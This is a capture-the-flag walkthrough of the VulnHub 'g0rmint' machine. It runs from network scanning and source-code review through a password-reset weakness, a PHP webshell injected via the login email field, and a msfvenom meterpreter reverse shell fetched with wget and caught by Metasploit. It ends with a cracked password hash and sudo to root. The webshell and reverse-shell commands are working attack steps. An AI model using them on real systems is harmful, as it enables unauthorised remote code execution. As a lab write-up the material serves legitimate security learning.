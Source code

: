 +++
title = "g0rmint"
slug = "g0rmint"
[taxonomies]
categories=["vulnhub"]
tags=["vulnerable-machine"]
+++

# g04mint

First off, find the box:

{% highlight bash %}
netdiscover -r 192.168.171.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts

3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.171.1   00:50:56:c0:00:01      1      60  VMware, Inc.
192.168.171.138 00:0c:29:1f:ad:4c      1      60  VMware, Inc.
192.168.171.254 00:50:56:fa:32:59      1      60  VMware, Inc.

{% endhighlight %}

Scan with nmap:

{% highlight bash %}
nmap -T4 -A -oA g0rmint  192.168.171.138
{% endhighlight %}

Looks like 22 and 80 are open, not a lot to go on...

Accessing the server on port 80 returns a 404 page, better try for a robots.txt and find this:

/* Too easy? Lets see */
Disallow: /g0rmint/*

Now I'm faced with a login page and nothing to go on, however the following showed up in the login page's markup:

{% highlight html %}
<meta name="backup-directory" content="s3cretbackupdirect0ry">
{% endhighlight %}

Next run dirb to try and find hidden content, nothing really popped up.

I tried fuzzing a bunch of mobile user agents to see if this meta tag somehow triggers a different page response as well as brute forcing the login/reset forms, nothing seemed to be working.

Then I remembered I need to try force browsing that directory now that new file system elements exist:

{% highlight bash %}

dirb http://192.168.171,138/g0rmint/s3crebackupdirect0ry -i -l

{% endhighlight %}

This found an info.php file which shows backup.zip, lets download that and take a look

A few interesting things here, first the config file has a function for writing PHP files out to the server, and the login page calls this storing the email form field in the generated PHP.

{% highlight php %}

function addlog($log, $reason) {
    $myFile = "s3cr3t-dir3ct0ry-f0r-l0gs/" . date("Y-m-d") . ".php";
    if (file_exists($myFile)) {
        $fh = fopen($myFile, 'a');
        fwrite($fh, $reason . $log . "<br>\n");
    } else {
        $fh = fopen($myFile, 'w');
        fwrite($fh, file_get_contents("dummy.php") . "<br>\n");
        fclose($fh);
        $fh = fopen($myFile, 'a');
        fwrite($fh, $reason . $log . "<br>\n");
    }
    fclose($fh);
}

{% endhighlight %}

Next looking at the register page if we know a legit user/email combination the user's password will be reset to the first 20 characters of a sha1 hash of the current date/time in GMT, which luckily gets printed to the page each time you reload or submit a postback.


After a lot of banging my head I finally learned a vital piece I'm usually missing during enumeration, in this case we need an email.  What I'm finally learning is I should be searching better any time I have a known input, in this case the email can be searched for in all this source code:

{% highlight bash %}

grep -i -r -E -o "\b[a-zA-Z0-9.-]+@[a-zA-Z0-9.-]+\.[a-zA-Z0-9.-]+\b" *
Binary file backup.zip matches
css/font-awesome.min.css:dave@davegandy.com
css/style.css:w3bdrill3r@gmail.com
css/style.css:timeline-left-arrow@2x.png
css/style.css:timeline-right-arrow@2x.png
css/style.css:chat-left@2x.png
css/style.css:chat-right@2x.png
css/style.css:chat-left-metro@2x.png
css/style.css:chat-right-metro@2x.png
css/font-awesome-ie7.min.css:dave@davegandy.com
db.sql:demo@example.com
Binary file img/gallery/photo5.jpg matches
js/jquery.elfinder.min.js:troex@fury.scancode.ru
js/jquery.elfinder.min.js:dio@std42.ru
js/jquery.elfinder.min.js:troex@fury.scancode.ru
js/jquery.elfinder.min.js:strogg@yandex.ru
js/jquery.elfinder.min.js:hypweb@gmail.com

{% endhighlight %}

Now to review all the files, style.css seems like a good starting point, thats usually the place an author or developer would put their CSS for a site/app.

{% highlight css %}

/*
* Author: noman
* Author Email: w3bdrill3r@gmail.com
* Version: 1.0.0
* g0rmint: Bik gai hai
* Copyright: Aunty g0rmint
* www: http://g0rmint.com
* Site managed and developed by author himself
*/

{% endhighlight %}

Right in plain site, it even states the manager/developer/admin as this person.

Now to get our password, time to generate our hash:

{% highlight php %}

substr(hash('sha1', 'date time string from the page load'), 0, 20);

{%endhighlight %}

and we have our password.

With the amount of time that elapsed getting this far I had completely forgotten about the addslashes call in config.php which lead to me wasting hours trying to get decent code execution going.  Once I reviewed the code again getting execution was pretty straightforward:

{% highlight php %}

<?php echo shell_exec(base64decode($_GET[cmd])); ?> 

{% endhighlight %}

as our email and we can start sending commands.

Now to generate a wget command to pull down a reverse_tcp shell:

{% highlight bash %}

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.171.136 LPORT=4444 R > shell.php
echo 'wget http://192.168.171.36:8000/shell.php' | base64
d2dldCBodHRwOi8vMTkyLjE2OC4xNzEuMzY6ODAwMC9zaGVsbC5waHAK==
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.171.138 - - [17/Jan/2018 22:32:39] "GET /shell.php HTTP/1.1" 200 -
{% endhighlight %}

Now to setup metasploit to handle the callback:

{% highlight bash %}

screen -S msf msfconsole

msf > use exploit/multi/handler
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(handler) > set LHOST 192.168.171.136
LHOST => 192.168.171.136
msf exploit(handler) > set LPORT 4444
LPORT => 4444

set PAYLOAD php/meterpreter/reverse_tcp

{% endhighlight %}

Then request our webshell, and we have a meterpreter session running.

Once connected I grabbed and ran LinEnum from rebootuser in hopes of finding something juicy.  Once I had the output I started parsing through and searched for vulns in the kernel, mysql, apache. logs, binaries, etc. and having nothing work.  Then took a look around and saw another backup.zip, extract and get this difference:

{% highlight sql %}
INSERT INTO `g0rmint` (`id`, `username`, `email`, `pass`) VALUES
(1, 'noman', 'w3bdrill3r@gmail.com', 'ea60b43e48f3c2de55e4fc89b3da53dc');
{% endhighlight %}

Then crack the hash and get: tayyab123

Now to try ssh with the g0rmint user in /etc/passwd and get a login, run sudo -l:

{% highlight bash %}
g0rmint@ubuntu:~$ sudo -l
[sudo] password for g0rmint:
Matching Defaults entries for g0rmint on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User g0rmint may run the following commands on ubuntu:
    (ALL : ALL) ALL
{% endhighlight %}

Looks like we're done: 

{% highlight bash %}

g0rmint@ubuntu:~$ sudo su
root@ubuntu:/home/g0rmint# ls /root
flag.txt
root@ubuntu:/home/g0rmint# cat /root/flag.txt
Congrats you did it :)
Give me feedback @nomanriffat
root@ubuntu:/home/g0rmint#

{% endhighlight %}
